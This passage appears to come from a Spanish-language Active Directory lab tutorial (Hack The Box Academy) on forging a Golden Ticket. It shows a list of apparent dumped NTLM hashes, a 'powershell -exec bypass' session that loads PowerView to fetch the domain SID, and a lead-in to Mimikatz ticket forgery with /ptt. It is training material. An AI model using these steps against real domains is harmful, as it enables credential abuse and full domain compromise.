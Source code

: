 ```
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c

```

![](https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png)

Usaremos el`Get-DomainSID`función de[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)Para obtener el valor SID del dominio:

Boleto dorado

```powershell
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584

```

![](https://academy.hackthebox.com/storage/modules/176/A8/sid.png)

Ahora, armados con toda la información requerida, podemos usar`Mimikatz`Para crear un boleto para la cuenta`Administrator`. El`/ptt`el argumento hace`Mimikatz` [pasar el boleto a la sesión actual](https://adsecurity.org/?page_id=1821#KERBEROSPTT):
